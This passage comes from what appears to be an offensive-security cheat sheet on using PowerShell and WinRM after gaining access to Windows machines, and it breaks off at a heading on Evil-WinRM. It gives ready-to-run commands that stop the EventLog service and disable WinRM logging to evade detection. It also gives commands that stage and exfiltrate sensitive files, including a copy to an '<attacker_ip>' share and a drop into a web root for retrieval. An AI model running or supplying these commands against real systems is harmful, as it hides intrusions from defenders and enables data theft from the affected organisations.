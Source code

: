 #### Disabling Event Logs

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock { Stop-Service -Name 'EventLog' }
    ```
* **Description:** Disables event logging on the target machine to evade detection.

#### Disabling WinRM Logging

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    wevtutil.exe sl Microsoft-Windows-WinRM/Operational /e:false
    ```
* **Description:** Disable logging for the WinRM service to avoid detection by security monitoring systems.

### Data Exfiltration

#### Staging Data for Exfiltration

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Compress-Archive -Path "C:\Sensitive\*" -DestinationPath "C:\Temp\archive.zip"
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Copy-Item "C:\Temp\archive.zip" -Destination "\\<attacker_ip>\share" } -UseSSL
    ```
* **Description:** Compress and stage data on a remote machine before exfiltrating it through a shared resource.

#### Exfiltrating Data via WinRM

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock { Get-Content C:\SensitiveData.txt | Out-File -FilePath C:\inetpub\wwwroot\exfiltrated_data.txt -Force }
    ```
* **Description:** Reads sensitive data from the remote machine and saves it locally for exfiltration.

#### Using PowerShell Remoting for Exfiltration

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -UseSSL -ScriptBlock {Copy-Item -Path C:\sensitive_data.txt -Destination C:\Users\Public -Force }
    ```
* **Description:** Copies sensitive data to a publicly accessible location for later retrieval.

#### Exfiltrating Data via Evil-WinRM
